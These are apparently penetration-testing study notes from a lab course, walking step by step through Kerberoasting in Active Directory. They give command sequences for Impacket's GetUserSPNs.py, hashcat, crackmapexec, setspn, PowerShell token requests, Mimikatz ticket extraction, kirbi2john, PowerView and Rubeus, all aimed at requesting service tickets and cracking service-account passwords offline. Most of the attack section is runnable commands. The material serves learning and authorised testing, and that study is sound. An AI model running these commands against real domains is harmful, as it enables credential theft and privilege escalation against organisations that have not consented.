
## Kerberoasting From Linux

Kerberoasting is a lateral movement/privilege escalation technique in Active Directory environments. This attack targets Service Principal Names (SPN) accounts. SPNs are unique identifiers that Kerberos uses to map a service instance to a service account in whose context the service is running. Domain accounts are often used to run services to overcome the network authentication limitations of built-in accounts such as NT AUTHORITY\LOCAL SERVICE. Any domain user can request a Kerberos ticket for any service account in the same domain. This is also possible across forest trusts if authentication is permitted across the trust boundary. All you need to perform a Kerberoasting attack is an account's cleartext password (or NTLM hash), a shell in the context of a domain user account, or SYSTEM level access on a domain-joined host.

Performing the Attack:
- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using runas /netonly.

Tools Used:
- Impacket’s GetUserSPNs.py from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, Rubeus, and other PowerShell scripts.

Steps:
1. List SPN Accounts with GetUserSPNs.py
```
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN.LOCAL/forend
```

2. Pull down all the TGS tickets for offline cracking using -request flag:
```
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN.LOCAL/forend -request
```

3. You can also target one specific account (sqldev in this example):
```
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN.LOCAL/forend -request -user XXX
```

4. For offline cracking, it's good to add -outputfile at the end:
```
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

5. Crack the ticket with hashcat:
```
hashcat -m 13100 <file_name> /usr/share/wordlists/rockyou.txt
```

6. Test authentication against the Domain Controller:
```
sudo crackmapexec smb <ip_of_dc> -u <user> -p <password>
```


## Kerberoasting From Windows

Manual Method:
1. Run this command with "setspn.exe"
```
setspn.exe -Q */*
```
	- Focus on User Accounts (not computer accounts)

2. Use Powershell to request TGS ticket for a single user to be stored in memory
```
PS C:\htb> Add-Type -AssemblyName System.IdentityModel
PS C:\htb> New-Object
System.IdentityModel.Tokens.KerberosRequestorSecurityToken -
ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

- The Add-Type cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The -AssemblyName parameter allows us to specify an assembly that contains types that we are interested in using
- System.IdentityModel is a namespace that contains different classes for building security token services
- We'll then use the New-Object cmdlet to create an instance of a .NET Framework object
- We'll use the System.IdentityModel.Tokens namespace with the KerberosRequestorSecurityToken class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session

3. Use Mimikatz to extract the ticket from memory
![[Pasted image 20221225214355.png]]
If we do not specify the base64 /out:true command, Mimikatz will extract the tickets and write them to .kirbi files. Depending on our position on the
network and if we can easily move files to our attack host, this can be
easier when we go to crack the tickets. Let's take the base64 blob retrieved above and prepare it for cracking.

4. Remove new lines and white spaces
```
echo "<base64 blob>" | tr -d \\n5
```

5. Convert file back to .kirbi
```
cat encoded_file | base64 -d > sqldev.kirbi
```

6. Using this version of kirbi2john.py , extract the Kerberos ticket
```
python2.7 kirbi2john.py sqldev.kirbi
```

7. Modify the crack_file for Hashcat
```
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

8. Crack the hash with hashcat
```
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```



PowerView
1. Use PowerView to Extract TGS Tickets
```
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Get-DomainUser * -spn | select samaccountname
```
	- From here, we can target a specific user

2. Using PowerView to Target a Specific User
```
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

3. Export all tickets to a CSV File for offline processing
```
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```


Rubeus
Things Rubeus can do:
- Performing Kerberoasting and outputting hashes to a file
- Using alternate credentials
- Performing Kerberoasting combined with a pass-the-ticket attack
- Performing "opsec" Kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES Kerberoasting

1. Gather stats
```
.\Rubeus.exe kerberoast /stats
```

2. Specify admin acounts (and use nowrap to make it easier to crack)
```
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
